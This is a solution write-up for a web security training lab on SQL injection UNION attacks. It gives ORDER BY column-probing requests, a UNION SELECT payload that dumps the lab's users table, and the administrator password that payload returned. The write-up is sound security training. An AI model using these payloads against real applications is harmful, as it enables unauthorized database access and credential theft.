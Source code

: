 # Lab 05: SQL injection UNION attack, retrieving data from other tables

## Description

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Solution

We are trying to read the contents of the `users` table, which contains two columns, `username` and `password`. From this we can login as the `administrator` user.

The first step is to determine how many columns are being returned by the original `SELECT` statement. Using the iterative 	`ORDER BY` method, we can see it is returning two columns.

No error:

```http
GET /filter?category=Gifts'+ORDER+BY+2-- HTTP/1.1
Host: ac061f4d1e9f5a02800e174700890095.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

Error:

```http
GET /filter?category=Gifts'+ORDER+BY+3-- HTTP/1.1
Host: ac061f4d1e9f5a02800e174700890095.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

Also, by looking at the different orders in which the data items are rendered on the page when using `ORDER BY 1` and `ORDER BY 2`, we can determine that the name of the product is at index 1 and its description is at index 2. Both of these columns are most likely strings, so the `UNION` operation with the presumptive string columns `username` and `password` from the `users` table will most likely be effective.

With the number of columns in hand and assuming they are both of type string, we can inject the following to dump the `users` table:

```http
GET /filter?category=Gifts'+UNION+SELECT+username,password+FROM+users-- HTTP/1.1
Host: ac061f4d1e9f5a02800e174700890095.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

giving us the following credentials:

```html
...
<tr>
	<th>administrator</th>
	<td>wd7stpw5spiieu1vusza</td>
</tr>
...
```

These credentials can be used to login as `administrator`.